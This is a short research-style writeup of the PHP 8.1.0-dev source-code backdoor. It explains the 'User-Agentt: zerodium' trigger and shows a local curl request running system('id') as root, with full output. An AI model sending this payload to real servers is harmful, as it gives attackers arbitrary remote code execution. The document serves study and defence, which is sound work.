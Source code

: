 # PHP 8.1.0-dev backdoor
- **Type**: hidden command/hardcoded credentials
- **Affected versions**: 8.1.0-dev (illegitimate commits)


## Backdoor
Upon receiving an HTTP request with a `"User-Agentt"` header field set to `"zerodium<CMD>"`, where
`<CMD>` is arbitrary PHP code, the `sapi/cli/php` server will execute that PHP code.

## Triggering the backdoor
First, we need to start up the HTTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/sapi/cli/php -S 127.0.0.1:8080 -t ./www
```
In a separate terminal, we can trigger the backdoor via a simple HTTP request:
```console
$ curl -v -H "User-Agentt: zerodiumsystem('id')" http://localhost:8080
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* connect to ::1 port 8080 from ::1 port 35680 failed: Connection refused
*   Trying 127.0.0.1:8080...
* Connected to localhost (127.0.0.1) port 8080
> GET / HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> User-Agentt: zerodiumsystem('id');
>
< HTTP/1.1 200 OK
< Host: localhost:8080
< Date: Thu, 12 Dec 2024 09:24:16 GMT
< Connection: close
< X-Powered-By: PHP/8.1.0-dev
< Content-type: text/html; charset=UTF-8
<
uid=0(root) gid=0(root) groups=0(root)
* Closing connection
```

## Reference
<https://doi.org/10.1145/3577923.3583657>
